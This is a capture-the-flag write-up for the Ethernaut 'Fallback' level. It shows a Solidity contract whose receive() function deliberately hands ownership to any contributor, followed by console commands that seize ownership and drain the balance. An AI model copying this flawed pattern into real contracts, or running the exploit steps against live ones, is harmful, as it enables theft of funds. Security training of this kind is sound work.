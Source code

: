 ```yaml
---
title: "Fallback"
tags: ["Fallback Methods"]
reference: https://ethernaut.openzeppelin.com/level/0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB
---
```


# Description

Look carefully at the contract's code below.

You will beat this level if

you claim ownership of the contract
you reduce its balance to 0
  Things that might help

How to send ether when interacting with an ABI
How to send ether outside of the ABI
Converting to and from wei/ether units (see help() command)
Fallback methods

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

# Solution

1. learn how to become owner

- (1) contribute `< 0.001 ether`
- (2) call `receive()` function

```sol
    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

2. call `contribute()`

```
tx = {to: '0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB', value: '10', from: '0xB1473Ba227C4645501E0e05f4839b00ED8320d33', gas: 40000}
contract.contribute.sendTransaction(tx)
```

3. call `recieve()`

```
contract.sendTransaction(tx)
```

4. call `withdraw()`

```
contract.withdraw()
```

5. check balance

```
await getBalance(instance)
'0'
```
